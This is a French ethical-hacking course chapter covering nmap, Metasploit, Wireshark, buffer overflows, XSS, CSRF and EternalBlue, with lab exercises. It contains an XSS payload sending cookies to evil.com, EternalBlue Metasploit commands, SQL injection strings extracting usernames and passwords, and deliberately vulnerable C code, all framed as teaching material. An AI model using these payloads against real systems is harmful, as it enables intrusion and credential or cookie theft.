


# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités

---

## Objectifs pédagogiques

- Distinguer les différents types de hackers (éthiques, malveillants, hacktivistes)
- Comprendre le panorama des attaques courantes : phishing, DDoS, injections SQL
- Prendre en main les outils de base : Metasploit, nmap, Wireshark
- Identifier et comprendre les failles courantes : buffer overflow, XSS, CSRF
- Simuler des attaques basées sur des vulnérabilités connues

---

## Introduction

Ce chapitre pose les fondations du module de hacking éthique. Avant d'exploiter des failles ou de mettre en place des contre-mesures, il est indispensable de comprendre le paysage des menaces, les profils d'attaquants et les grandes familles de vulnérabilités.

La cybersécurité repose sur un principe simple : pour se défendre, il faut savoir comment l'attaquant opère. Ce premier jour vous donnera les clés de lecture nécessaires pour aborder le reste de la formation.

---

## Dépendances / Prérequis

- Connaissances de base en réseaux (TCP/IP, DNS, HTTP)
- Notions fondamentales en systèmes Linux et Windows
- Machine virtuelle Kali Linux ou accès aux outils installés
- `pip install python-nmap scapy requests`

---

## 1. Introduction au hacking éthique

### Comprendre le concept

Le hacking éthique consiste à utiliser les mêmes techniques que les attaquants malveillants, mais dans un cadre légal et avec l'autorisation du propriétaire du système cible. L'objectif est d'identifier les vulnérabilités avant qu'elles ne soient exploitées.

> **Sources :** [CEH Official Guide](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/) — EC-Council.

### Types de hackers



### Panorama des attaques courantes

| Attaque | Description | Impact |
|---------|-------------|--------|
| Phishing | Usurpation d'identité pour voler des identifiants | Compromission de comptes |
| DDoS | Saturation d'un service par un flux de requêtes | Indisponibilité |
| Injection SQL | Insertion de code SQL dans les entrées utilisateur | Vol de données, destruction de BDD |

---

## 2. Outils de l'attaquant

### nmap — Cartographie réseau

```bash
# Scan de base sur un hôte
nmap -sV 192.168.1.1

# Scan rapide des 1000 ports les plus courants
nmap -F 192.168.1.0/24

# Détection d'OS et de versions de services
nmap -A 192.168.1.1
```

> **Sources :** [nmap Network Scanning](https://nmap.org/book/) — Gordon Lyon.

### Metasploit — Framework d'exploitation

Metasploit est une plateforme modulaire permettant de rechercher, configurer et exécuter des exploits contre des cibles identifiées.

```bash
# Lancer la console Metasploit
msfconsole

# Rechercher un exploit
search cve:2017-0144

# Utiliser un exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
exploit
```

### Wireshark — Analyse de paquets

Wireshark capture et analyse le trafic réseau en temps réel. Indispensable pour comprendre les protocoles et détecter des anomalies.

Filtres courants :
- `http` — trafic HTTP uniquement
- `tcp.port == 443` — trafic HTTPS
- `ip.addr == 192.168.1.1` — tout le trafic lié à cette IP

---

## 3. Comprendre les vulnérabilités des systèmes

### Buffer Overflow

Un buffer overflow (dépassement de tampon) survient quand un programme écrit plus de données dans un buffer que sa capacité ne le permet, écrasant la mémoire adjacente.

#### Formulation mathématique

Un buffer de taille $B$ octets reçoit $N$ octets avec $N > B$ :

$$
\text{Dépassement} = N - B
$$

Où :
- $B$ : taille allouée du buffer (en octets)
- $N$ : nombre d'octets écrits
- Si $N > B$, les $N - B$ octets excédentaires écrasent la mémoire adjacente

> **Explication de la formule :** Le programme réserve un espace mémoire fixe. Si l'entrée dépasse cet espace, l'excédent déborde sur des zones mémoire critiques (adresse de retour, variables voisines).

```c
// Exemple vulnérable en C
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
    char buffer[16];    // B = 16 octets
    strcpy(buffer, input); // Pas de vérification de taille !
    printf("Buffer: %s\n", buffer);
}

int main() {
    char payload[64];
    memset(payload, 'A', 63);  // N = 63 > B = 16
    payload[63] = '\0';
    vulnerable(payload);  // Buffer overflow !
    return 0;
}
```

**Résultat attendu :** Segmentation fault ou comportement imprévisible.

### XSS (Cross-Site Scripting)

L'attaque XSS injecte du code JavaScript malveillant dans une page web consultée par d'autres utilisateurs.

**Types de XSS :**
- **Reflected** : le script est injecté via l'URL et exécuté immédiatement
- **Stored** : le script est stocké en base de données et exécuté à chaque affichage
- **DOM-based** : manipulation du DOM côté client

```html
<!-- Exemple de payload XSS simple -->
<script>document.location='http://evil.com/?cookie='+document.cookie</script>
```

### CSRF (Cross-Site Request Forgery)

Le CSRF force un utilisateur authentifié à effectuer une action non désirée sur une application web.

```html
<!-- Page malveillante qui déclenche un virement -->

```

> **Sources :** [OWASP Top 10](https://owasp.org/www-project-top-ten/) — OWASP Foundation.

---

## 4. Méthodes d'exploitation

### Cycle d'une attaque



### Analyse d'une attaque réelle : le cas EternalBlue (CVE-2017-0144)

EternalBlue exploitait une vulnérabilité SMBv1 dans Windows. Utilisé par WannaCry en 2017, il a infecté plus de 200 000 machines dans 150 pays.

1. **Port vulnérable** : TCP 445 (SMBv1)
2. **Type de faille** : Buffer overflow dans le traitement des paquets SMB
3. **Conséquence** : Exécution de code à distance (RCE)

> **Sources :** [Microsoft Security Bulletin MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) — Microsoft.

---

## Exercices

### Exercice 1 : Scan de réseau avec nmap

**Énoncé :** Réalisez un scan complet d'une machine cible locale et identifiez les services exposés.

**Sources :** [nmap Book](https://nmap.org/book/)

**Contexte :** Machine Kali Linux ou environnement avec nmap installé.

<details>
<summary><strong>Solution</strong></summary>

```bash
# Scan des ports ouverts avec détection de version
nmap -sV -p- 192.168.1.10

# Analyse complète
nmap -A 192.168.1.10
```

**Résultat attendu :**
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4
80/tcp  open  http        Apache httpd 2.4.6
445/tcp open  netbios-ssn Samba smbd 3.X
```
</details>

### Exercice 2 : Simulation d'injection SQL

**Énoncé :** Testez une injection SQL simple sur une application vulnérable locale (DVWA ou similaire).

<details>
<summary><strong>Solution</strong></summary>

```sql
-- Injection SQL classique : contournement d'authentification
' OR '1'='1' --

-- Extraction de données
' UNION SELECT username, password FROM users --
```
</details>

---

## Lab : Prise en main des outils du pentester

**Durée estimée :** 1h30

**Contexte :** Machine virtuelle Kali Linux, cible Metasploitable 2.

### Objectif

Configurer un environnement de test, scanner une cible et exploiter une vulnérabilité basique avec Metasploit.

### Instructions

1. Déployer Metasploitable 2 en VM
2. Scanner la cible avec nmap
3. Identifier un service vulnérable (ex : vsftpd 2.3.4)
4. Lancer Metasploit et exploiter la vulnérabilité

### Code

```python
#!/usr/bin/env python3
"""
Script de scan automatisé avec python-nmap.
"""

import nmap

def scan_target(target: str) -> dict:
    nm = nmap.PortScanner()
    nm.scan(target, arguments='-sV -p 21,22,23,80,445')
    results = {}
    for host in nm.all_hosts():
        results[host] = {}
        for proto in nm[host].all_protocols():
            ports = nm[host][proto].keys()
            for port in ports:
                service = nm[host][proto][port]
                results[host][port] = {
                    'name': service.get('name', 'unknown'),
                    'version': service.get('version', 'unknown'),
                }
    return results

if __name__ == "__main__":
    target = input("IP cible : ")
    results = scan_target(target)
    import json
    print(json.dumps(results, indent=2))
```

---

## Points clés à retenir

- Le hacking éthique est une pratique légale et professionnelle de test d'intrusion
- Les principales familles d'attaque sont : phishing, DDoS, injections, buffer overflow, XSS, CSRF
- Les outils fondamentaux sont nmap (scan), Metasploit (exploitation), Wireshark (analyse)
- La méthodologie suit un cycle : reconnaissance → scan → énumération → exploitation → post-exploitation → nettoyage
- Chaque vulnérabilité suit une logique technique qu'il faut comprendre avant de pouvoir l'exploiter ou s'en défendre

## Pour aller plus loin

- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [Hack The Box Academy](https://academy.hackthebox.com/)

---

*Chapitre suivant : [Jour 2 — Tests de pénétration et exploitation](./JOUR-02.md)*
